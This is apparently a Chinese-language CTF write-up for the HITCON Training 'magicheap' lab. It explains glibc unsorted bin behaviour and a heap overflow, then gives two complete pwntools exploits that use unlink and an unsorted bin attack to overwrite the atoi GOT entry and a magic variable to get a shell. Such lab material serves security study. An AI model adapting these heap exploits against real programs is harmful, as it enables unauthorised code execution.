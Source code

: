 ```yaml
---
title: lab14_magicheap
data: 2019-07-23
categories:
- hitcon_trainning
tags: heap unlink unsortedbin_attack
---
```


<font style='font-size:25px'>Unlink | Unsortedbin_Attack</font>

# unsorted_bin_attack

## unsortedbin

- 一个`chunk`被释放时，当他不属于`fastbin`的范围且不和`top_chunk`相邻，他就会被首先放入`unsortedbin`中。

- `malloc`的时候，如果`fastbin`和`smallbin`里都找不到相应大小的`chunk`，就会去`unsortedbin`里面找。    
    如果大小满足，就会返回相应的`chunk`给用户，不满足，就会将`unsortedbin`中所有的`chunk`放入`smallbin`中。

- 是一个双向链表。   
    - FILO，从链表头部取，放进链表尾部。
    - 取出`chunk`的时候不使用`unlink`的宏。
    ```c
    bck = victim -> bk
    //victim 是当前要取出来的chunk
    unsorted_chunks(av) -> bk = bck 
    bck -> fd = unsorted_chunks(av)
    ```

## attack

- 如果控制了`victim`的bk指向`target_addr - 8`,那么`target_addr`就可以被改写成为`unsorted_bin`的地址。

- 无法更改`target_addr`为指定内容，但可以将其覆盖为一个较大的数字。

    - 可以用来更改循环次数
    - 更改判断流程
    - ......

![ctfwiki图](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/figure/unsorted_bin_attack_order.png)

# 漏洞
一个普通的菜单选择题<font style="font-size:10px">堆的专属题型（bushi</font>。    
提供`create`、`edit` & `delete`，但是`edit`里面没有检查长度造成堆溢出。     
流程中提供一个猜数功能，猜中了就可以调用`system`

# 思路
- 一个错误的想法

一开始是想用`double_free`那种思路，把`fastbins`的某一个`bin`的指针指向`got表`。所以一开始还觉得挺简单的，但很快我就想起了被寻找合适位置冒充`chunk`的`size`域支配的恐惧。     

- `unlink`

我发现基本上所有的堆溢出都可以构造出unlink的利用。只要有类似`nodelist`的指针。 

1. 构造`fake_chunk`,注意`size`大于`0x80`。
2. `delete`触发`unlink`，将`heaparray`指向`atoi`的`got`表。
3. 将`atoi@got`的内容改写成为`system@plt`。
4. 发送`/bin/sh\x00`

    **仍旧`glibc2.27`跑不了。**

- `unsorted bin attack`

    - 看了大佬的`wp`才只知道有这个攻击
    - **`glibc2.27`跑不了。**

![反汇编](https://c-ssl.duitang.com/uploads/item/201907/23/20190723155953_uv5xt.png)   
![l33t](https://c-ssl.duitang.com/uploads/item/201907/23/20190723160231_RvVGR.png)     

这里有个判断，如果`magic`是一个大于`0x1305`的数字就会执行`l33t`这个函数。    
使用`unsorted_bin_attack`更改，执行。
1. 分配3个chunk——第三个是用来隔开`top_chunk`。
2. delete(1)
3. 利用堆溢出更改`chunk_1`的bk域为`magic`的地址。
4. 再次分配一个大小相同的`chunk`。

# exp

## unlink

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def create(sz,content):
    sleep(0.2)
    sh.sendlineafter(':','1')
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap:',content)

def edit(idx,sz,content):
    sleep(0.2)
    sh.sendlineafter('choice :','2')
    sh.sendlineafter('Index :',str(idx))
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap :',content)

def delete(idx):
    sh.sendlineafter('choice :','3')
    sh.sendlineafter('Index :',str(idx))

if __name__ == '__main__':
    sh = process('./magicheap')
    elf = ELF('./magicheap')
    libc = elf.libc
    atoi_got = elf.got['atoi']
    system_addr = elf.plt['system']
    heaparray = 0x06020E0

    create(0x90,'aaaa')
    create(0x80,'bbbb')
    create(0x80,'cccc')

    fd = heaparray - 24
    bk = heaparray - 16
    payload = p64(0) + p64(0x90) + p64(fd) + p64(bk) + cyclic(0x70) + p64(0x90) + p64(0x90) 

    pause()
    edit(0,len(payload),payload)
    delete(1)

    payload = cyclic(24) + p64(atoi_got)
    edit(0,len(payload),payload)
    
    payload = p64(system_addr)
    edit(0,len(payload),payload)

    sh.sendlineafter("choice :",'/bin/sh\x00')
    
    sh.interactive()
    sh.close()
```

## UnsortedBinAttack

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def create(sz,content):
    sleep(0.2)
    sh.sendlineafter(':','1')
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap:',content)

def edit(idx,sz,content):
    sleep(0.2)
    sh.sendlineafter('choice :','2')
    sh.sendlineafter('Index :',str(idx))
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap :',content)

def delete(idx):
    sh.sendlineafter('choice :','3')
    sh.sendlineafter('Index :',str(idx))

if __name__ == '__main__':
    sh = process('./magicheap')
    elf = ELF('./magicheap')
    libc = elf.libc

    magic_addr = 0x6020C0

    create(0x10,'aaaa')
    create(0x80,'bbbb')
    create(0x10,'cccc')

    delete(1)
    
    payload = cyclic(0x10) + p64(0) + p64(0x91) + p64(0) + p64(magic_addr - 0x10) 
    edit(0,len(payload),payload)
    
    create(0x80,'dddd')

    sh.sendlineafter('choice :','4869')
    sh.interactive()
    sh.close()
```

# 问题

到底是为什么`glibc2.27`没法跑？

